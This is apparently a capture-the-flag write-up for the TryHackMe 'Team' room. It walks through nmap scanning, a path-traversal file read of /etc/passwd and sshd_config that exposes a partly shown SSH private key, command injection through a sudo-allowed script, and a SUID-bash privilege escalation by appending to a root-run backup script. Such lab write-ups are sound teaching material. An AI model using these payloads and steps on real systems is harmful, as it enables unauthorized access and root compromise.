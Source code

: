## Team
https://tryhackme.com/room/teamcw

## Enum
```
nmap -Pn -sC -sS -sV ip.thm -p 21,22,80 -A

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 4.X (88%)
OS CPE: cpe:/o:linux:linux_kernel:4.2
Aggressive OS guesses: Linux 4.2 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
![image](https://user-images.githubusercontent.com/6504854/194690167-ffe29242-bf93-42a1-b0b9-35d288856d35.png)

🚩 Hint: dev 

```
echo 10.10.250.37 team.thm >> /etc/hosts
echo 10.10.250.37 dev.team.thm >> /etc/hosts
```

```
curl http://dev.team.thm/                                 

<html>
 <head>
  <title>UNDER DEVELOPMENT</title>
 </head>
 <body>
  Site is being built<a href=script.php?page=teamshare.php </a>
<p>Place holder link to team share</p>
 </body>
</html>
                                                                                                
curl http://dev.team.thm/script.php?page=teamshare.php

<html>
 <head>
  <title>Team Share</title>
 </head>
 <body>
  Place holder for future team share </body>
</html>
```

```
curl http://dev.team.thm/script.php?page=../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
```

![image](https://user-images.githubusercontent.com/6504854/194690815-ce494dcd-640b-4835-95eb-600fee7d4d75.png)

🚩 ffuf scaned via LFI list and found ssh_conf files. 

page=/home/dale/.ssh/id_rsa and page=/home/gyles/.ssh/id_rsa couldn't find ssh keys 😞

```
curl http://dev.team.thm/script.php?page=/etc/ssh/sshd_config

#       $OpenBSD: sshd_config,v 1.101 2017/03/14 07:19:07 djm Exp $

#Dale id_rsa
#-----BEGIN OPENSSH PRIVATE KEY-----
#b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
~~~
#CPFMeoYeUdghftAAAAE3A0aW50LXA0cnJvdEBwYXJyb3QBAgMEBQYH
#-----END OPENSSH PRIVATE KEY-----

```
🚩 Copy + paste the key and remove # (commented). Save as id_rsa and chmod 600 id_rsa.

## Flag

```
ssh -i id_rsa dale@10.10.250.37

```
![image](https://user-images.githubusercontent.com/6504854/194691494-f6a176f1-a727-4a34-a069-5f59ab57f157.png)

```
dale@TEAM:~$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```

```
dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: data
Enter 'date' to timestamp the file: /bin/sh -i
The Date is id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)

gyles@TEAM:/opt/admin_stuff$ find / -group admin 2>/dev/null
/usr/local/bin
/usr/local/bin/main_backup.sh
/opt/admin_stuff

gyles@TEAM:~$ echo "cp -p /bin/bash /tmp/sh && chmod u+s /tmp/sh" >> /usr/local/bin/main_backup.sh

gyles@TEAM:~$ ls -la /tmp/sh
-rwsr-xr-x 1 root root 1113504 Oct  8 07:46 /tmp/sh

gyles@TEAM:/tmp/sh -p

sh-4.4# cat /root/root.txt
sh-4.4# THM{f************}
```

㊗️ はらへった　🥓🥓🥓🥓


